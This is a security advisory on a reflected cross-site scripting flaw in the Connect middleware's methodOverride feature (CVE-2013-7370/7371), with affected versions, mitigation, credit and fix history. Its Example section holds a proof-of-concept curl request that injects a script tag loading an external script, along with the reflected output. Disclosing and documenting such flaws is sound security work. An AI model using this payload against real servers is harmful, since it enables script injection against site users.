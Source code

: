 ```yaml
---
title:  methodOverride Middleware Reflected Cross-Site Scripting
author:  Sergio Arcos
module_name: connect
publish_date: 2013-07-01T01:08:59.630Z
cves: "[{\"name\":\"CVE-2013-7370\",\"link\":\"http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-7370\"}, {\"name\":\"CVE-2013-7371\",\"link\":\"http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-7371\"}]"


vulnerable_versions: "<=2.8.0"
patched_versions: ">=2.8.1"
...
```


## Overview
Connect is a stack of middleware that is executed in order in each request.
 
The "methodOverride" middleware allows the http post to override the method of the request with the value of the "_method" post key or with the header "x-http-method-override".  

Because the user post input was not checked, req.method could contain any kind of value. Because the req.method did not match any common method VERB, connect answered with a 404 page containing the "Cannot [method] [url]" content. The method was not properly encoded for output in the browser.


##Example
```
~ curl "localhost:3000" -d "_method=<script src=http://nodesecurity.io/xss.js></script>"
Cannot <SCRIPT SRC=HTTP://NODESECURITY.IO/XSS.JS></SCRIPT> /
```

##Mitigation factors
Update to the newest version of Connect or disable methodOverride. It is not possible to avoid the vulnerability if you have enabled this middleware in the top of your stack.

##Credit: 
[Sergio Arcos](https://twitter.com/martes_trece)

##History
(2013-06-27) Bug reported:
https://github.com/senchalabs/connect/issues/831

(2013-06-27) First fix: escape req.method output
https://github.com/senchalabs/connect/commit/277e5aad6a95d00f55571a9a0e11f2fa190d8135

(2013-06-27) Second fix: whitelist 
https://github.com/senchalabs/connect/commit/126187c4e12162e231b87350740045e5bb06e93a
